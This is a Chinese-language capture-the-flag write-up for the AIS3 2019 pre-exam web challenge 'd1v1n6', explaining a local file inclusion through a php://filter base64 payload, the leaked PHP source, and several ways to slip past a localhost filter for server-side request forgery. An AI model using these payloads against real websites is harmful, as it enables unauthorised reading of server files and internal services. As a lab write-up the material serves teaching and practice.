

# AIS3 pre-exam 2019: d1v1n6

**Category:** Web  
**Description:**  

>http://pre-exam-web.ais3.org:10103/

## Write-up

該題的頁面有給個超連結，點了之後可以發現 URL 的變化變成 `?path=hint.txt`，光是這一點就可以猜可能是考 LFI。  

嘗試改為 `index.php` 卻出現 `Detected "flag" in content. Not showing!` 該段字，表示內容中存在 `flag` 所以不予顯示，這時就直接聯想到可以透過 PHP 偽協議來將內容轉為 Base64 或 ROT13。  

```
/?path=php://filter/convert.base64-encode/resource=index.php
```

便取得該程式的原始碼，如下（若使用 base64，由於有限制大小的關係，不會將完整程式碼下載下來，可以改用 ROT13，但該地方其實不影響）。

```PHP
<?php

    if ($_SERVER['REMOTE_ADDR'] == '127.0.0.1') {

        // show path of the flag
        die($_ENV['FLAG_HINT']);
    }


    if ($path = @$_GET['path']) {
        $path = trim($path);

        if (preg_match('/https?:\/\/([^s\/]+)/i', $path, $g)) {
            // resolve ip address
            $ip = gethostbyname($g[1]);

            // no local request
            if ($ip == '127.0.0.1' || $ip == '0.0.0.0')
                die('Do not request to localhost!');
        }

        // no flag in path
        $path = preg_replace('/flag/i', '', $path);

        if ($content = @file_get_contents($path, FALSE, NULL, 0, 1000)) {

            // no flag in content
            if (preg_match('/flag/i', $content)) {
                die('Detected "flag" in content. Not showing!')

```

可以看到最關鍵的地方。

```PHP
    if ($_SERVER['REMOTE_ADDR'] == '127.0.0.1') {

        // show path of the flag
        die($_ENV['FLAG_HINT']);
    }
```

當 `REMOTE_ADDR` 為 127.0.0.1 時，就會秀出 Flag，但還有一個問題，如下。

```php
if (preg_match('/https?:\/\/([^s\/]+)/i', $path, $g)) {
     // resolve ip address
    $ip = gethostbyname($g[1]);

    // no local request
    if ($ip == '127.0.0.1' || $ip == '0.0.0.0')
        die('Do not request to localhost!');
}
```

當 ip 等於 `127.0.0.1` 或 `0.0.0.0` 時，就會跳出 `Do not request to localhost!` 訊息，所以常用的方法會被過濾掉，如下。

```
/?path=http://127.0.0.1/index.php
/?path=http://0.0.0.0/index.php
```

但可以取代 `127.0.0.1`、`0.0.0.0` 的方法其實不少，例如 `127.0.0.1:80` 或是 `loaclhost`，甚至 `0:80`，都可以成功繞過。  

接著就會得到 Flag 的路徑，在直接存取該頁面即可得到 Flag。  



同時也得到第二題「d33p3r」的提示。